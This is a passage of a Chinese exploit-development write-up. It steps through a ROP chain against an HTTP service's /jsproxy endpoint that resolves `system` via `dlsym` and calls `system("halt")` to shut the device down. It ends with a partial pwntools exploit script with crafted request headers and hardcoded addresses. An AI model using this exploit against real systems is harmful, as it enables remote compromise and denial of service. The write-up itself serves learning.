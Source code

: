 同样的原理设置好 `halt` , 然后调用 `dlsym` 获取  `system` 的地址。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15152051616411xqvk27b.png?imageslim)
执行 `dlsym(0, "system") ` 即可获得 `system` 地址， 函数返回时保存在 `eax`, 所以接下来 在栈上设置好参数（`halt` 字符串的地址） 然后 `jmp eax` 即可。

下面调试看看
首先 `ret 0x1bb`, 移栈
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515205323369xyzljof1.png?imageslim)

然后是执行 `strncpy` 设置 `system`.

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515205402433o5soeoxp.png?imageslim)

设置完后，我们就有了 `system`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515205476774vuyjgswn.png?imageslim)

然后执行 `dlsym(0, "system") ` 

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515205601990727005zg.png?imageslim)

执行完后， `eax` 保存着 `system` 函数的地址

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515205780535xi426xmw.png?imageslim)

然后利用 `jmp eax` 调用 `system("halt")`.

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515205845365jiu6x47t.png?imageslim)

运行完后，系统就关机了。



### 最后
理解了多线程的机制。 对于不太好计算的，可以猜个粗略的值，然后使用 `cyclic` 来确定之。 `strncpy` 设置字符串的技巧不错。 `dlsym(0, "system")` 可以用来获取函数地址。调试 `rop` 时要细心，`rop` 链被损坏使用 `ret *` 之类的操作绕过之。一些不太懂的东西，写个小的程序测试一下。



**exp**

```
from pwn import *

def makeHeader(num):
    return "POST /jsproxy HTTP/1.1\r\nContent-Length: " + str(num) + "\r\n\r\n"


s1 = remote("192.168.2.124", 80)
s2 = remote("192.168.2.124", 80)


s1.send(makeHeader(0x20900))
sleep(0.5)
pause()
s2.send(makeHeader(0x100))
sleep(0.5)
pause()



strncpy_plt = 0x08050D00
dlsym_plt = 0x08050C10

system_addr = 0x0805C000 + 2
halt_addr = 0x805c6e0

```